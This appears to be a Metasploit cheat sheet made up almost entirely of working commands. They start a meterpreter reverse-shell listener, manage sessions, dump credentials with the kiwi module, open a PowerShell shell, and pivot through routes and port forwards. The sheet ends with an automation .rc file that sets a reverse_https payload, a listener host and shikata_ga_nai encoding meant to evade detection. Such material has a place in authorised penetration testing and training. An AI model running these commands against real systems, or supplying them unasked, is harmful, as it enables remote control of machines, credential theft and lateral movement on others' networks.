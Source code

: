 # MSFConsole
#### Start listener
```
use multi/handler
set payload windows/meterpreter/reverse_tcp
```

#### Background the sessions
```
Background
```

#### List sessions
```
sessions
```

#### Kill session
```
sessions -k <id>
```

#### Enter sessions
```
sessions -i <id>
```

#### Load kiwi module to dump creds and print help for kiwi
```
load kiwi
help kiwi
```

#### Load PowerShell and drop into shell
```
load powershell
powershell_shell
```

#### Set route
```
route add <subnet / host ip> <subnetmask> <session id>
```

#### Autoroute modulle
```
use multi/manage/autoroute
```

#### Create port forward
```
Portfwd add -l <LOCAL PORT> -p <REMOTE PORT> -r <REMOTE HOST>
```

#### After setting routes use bind shells

#### Autorun script
Create a .rc file and use it like:
```
set AutoRunScript multi_console_command -rc /root/autoruncommands.rc
set AutoRunScript windows/gather/enum_logged_on_users
set AutoRunScript post/windows/manage/migrate
```

## Metasploit automation run automatic script
#### Create a .rc file
```
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.11.0.4
set LPORT 443
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
exploit -j -z
```

#### Start metasploit with .rc file
```
sudo msfconsole -r setup.rc
```
